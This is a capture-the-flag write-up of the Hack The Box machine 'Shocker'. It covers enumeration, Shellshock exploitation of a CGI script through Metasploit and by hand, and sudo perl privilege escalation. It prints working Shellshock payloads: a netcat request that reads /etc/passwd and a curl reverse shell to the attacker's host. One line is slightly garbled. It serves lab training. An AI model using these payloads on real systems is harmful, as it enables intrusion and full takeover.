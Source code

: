```yaml
---
layout: PostSimple
date: 2019-12-03
title:     "Hack The Box - Shocker"
tags: ['linux','easy','sudo','shellshock']
layout: PostSimple
categories: HackTheBox OSCP-Like
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-shocker/1.png)

We are going to pwn Shocker from Hack The Box.

Link : [https://www.hackthebox.eu/home/machines/profile/108](https://www.hackthebox.eu/home/machines/profile/108)


Like always begin with our Nmap Scan.

## Nmap Scan Results
```bash
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-1

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.16 (95%), Linux 3.18 (95%), Linux 3.2 - 4.9 (95%), Linux 4.2 (95%), Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.8 - 3.11 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 4.4 (95%), Linux 4.8 (94%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Check whats in the webpage[br/](br/)
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-shocker/2.png)

Like always lets try bruteforcing the webpage to find any interesting page.

## Gobuster Results

```bash
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.56
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/12/02 21:00:28 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/cgi-bin/ (Status: 403)
/index.html (Status: 200)
/server-status (Status: 403)
===============================================================
2019/12/02 21:04:36 Finished
===============================================================
```
> /cgi-bin  is a folder used to house scripts that will interact with a Web browser to provide functionality for a Web page or website. 

## Checking ShellShock Exploit 

May be if we found any scripts available on ``/cgi-bin/`` we can do ``shellshock`` exploit as the name of the box ``Shocker`` gives us a clue.

Lets bruteforce `` /cgi-bin/ `` , I gave extensions as ``sh,py,pl`` to check for any scripts.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-shocker/3.png)[br/](br/)
My guess is correct there is an ``user.sh`` script available

For more info
> https://null-byte.wonderhowto.com/how-to/exploit-shellshock-web-server-using-metasploit-0186084/

## Getting Shell

There is a module for shellshock exploit, Lets fire up the metasploit

> use exploit/multi/http/apache_mod_cgi_bash_env_exec

We need to give the location of the script in ``TARGETURI`` 
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-shocker/4.png)

Lets check first whether it is vulnerable or not!
It is Vulnerable so run this and we can get an shell.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-shocker/5.png)

We have an user called ``shelly``

## Privilege Escaltion

I uploaded my Linux Enumeration Script and found that ``perl`` can run as root without password.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-shocker/6.png)

Lets check GTFOBins

>https://gtfobins.github.io/gtfobins/perl/

``sudo perl -e 'exec "/bin/sh";``

Running this command will make us root

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-shocker/7.png)

We got ROOT ~

## Method 2 (Without Metasploit)

We can get shell without using metasploit

By injecting the `UserAgent` Manually I can read the `/etc/passwd` so by using this I can get reverse shell too.
```bash
root@kali:~/Downloads# echo -e "HEAD /cgi-bin/user.sh HTTP/1.1\r\nUser-Agent: () { :;}; echo \$(</etc/passwd)\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc 10.10.10.56 80
HTTP/1.1 200 OK
Date: Tue, 07 Jul 2020 04:21:30 GMT
Server: Apache/2.4.18 (Ubuntu)
root: x:0:0:root:/root:/bin/bash
daemon: x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin: x:2:2:bin:/bin:/usr/sbin/nologin
sys: x:3:3:sys:/dev:/usr/sbin/nologin
sync: x:4:65534:sync:/bin:/bin/sync
games: x:5:60:games:/usr/games:/usr/sbin/nologin
man: x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp: x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail: x:8:8:mail:/var/mail:/usr/sbin/nologin
news: x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp: x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy: x:13:13:proxy:/bin:/usr/sbin/nologin
www-data: x:33:33:www-data:/var/www:/usr/sbin/nologin
backup: x:34:34:backup:/var/backups:/usr/sbin/nologin
list: x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc: x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats: x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody: x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync: x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network: x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve: x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy: x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog: x:104:108::/home/syslog:/bin/false
_apt: x:105:65534::/nonexistent:/bin/false
lxd: x:106:65534::/var/lib/lxd/:/bin/false
messagebus: x:107:111::/var/run/dbus:/bin/false
uuidd: x:108:112::/run/uuidd:/bin/false
dnsmasq: x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd: x:110:65534::/var/run/sshd:/usr/sbin/nologin
shelly: x:1000:1000:shelly,,,:/home/shelly:/bin/bash
Connection: close
Content-Type: text/x-sh
```

Reference:
>https://medium.com/@hackbotone/shellshock-attack-on-a-remote-web-server-d9124f4a0af3

So All we need to do is run this command on our machine and listening on another terminal

```bash
curl -A '() { :; }; /bin/bash -i > /dev/tcp/10.10.14.17/9000 0[&1 2](&1 2)&1' http://10.10.10.56/cgi-bin/user.sh
```

It is injecting on the `` User-Agent `` on the request header.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-shocker/8.png)

WE got ``shelly`` and Privilege Escalation is as same as before.